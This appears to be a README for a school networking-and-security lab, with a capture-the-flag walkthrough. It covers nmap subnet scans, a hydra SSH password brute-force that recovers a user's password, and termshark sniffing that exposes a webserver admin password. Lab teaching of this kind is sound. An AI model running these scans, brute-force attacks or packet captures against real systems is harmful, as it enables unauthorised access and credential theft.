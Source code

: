 # Y11S2NSAI3
2024 Semester 2 ai4 Networking and Security

# Notes:
Containerlab will never give confirmation that it has finished building. This is because of an issue with the quickchat server where it crashes when scanned with nmap, and as such needs to be restarted. This script does not stay running unless it is run in the foreground with nohup, which doesn't allow containerlab to realise it is finished. 

# Challenge Overview
You have been given access to one machine on a network. Your goal is to gain access to a webserver accessible from your browser. You will use tools such as hydra and termshark in order to do this.


# Instuctions to complete
## Connecting to network
You can connect to the attack-box using the username and password "hackerman" on port 2222
```bash
ssh hackerman@<ip-address> -p 2222
password: hackerman
```

Reading the hint.txt file in the home directory tell you you will need hydra and termshark, as well as providing a list subnets.

Start by scanning the subnets:
```bash
nmap 192.168.0.0/24

nmap 192.168.143.0/24

nmap 10.13.37.10/24
```

We can see that on the 192.168.0.0/24 subnet, there is a machine with the ip address 192.168.0.18 that has an open ssh port. 

We can also see that a machine on the 192.168.143.0/24 subnet has an open port 8080 on ip 192.168.143.10, and an open port 5000 on ip 192.168.143.11.

The subnet 10.13.37.10/24 has no ports open, so we can ignore this as a red herring.

The hint file told us that there is a user named "John" that has ssh enabled. We should start there.

We can see that we also have a list of the top 10k passwords. Let's try using this to gain access to John's system.

```bash
hydra -l John -P 10k-most-common.txt ssh://192.168.0.18
```

This gives us the password "camaro". Now we can log into John's system
```bash
ssh John@192.168.0.18
password: camaro
```

Now that we have access to John's system, we can inspect packets that he is sending/recieving using termshark. using the ip a command, we can see that he is connected to the network using interface eth1.
```bash
termshark -i eth1
```

Although we could sift through this manually, we previously saw that there was a server with the ip address 192.168.143.10 with an open port. Let's see if John is talking to it. In the filters, we put:
```bash
ip.src == 192.168.143.10
```

This gives us a list of packets that are being sent to John from that server. By inspecting the contents of these packages, we can see a message:
```
The admin password for the webserver was NotS3cuR3P@ssW0rd
```

By now navigating to the website, we can use this admin password to login and get the flag.

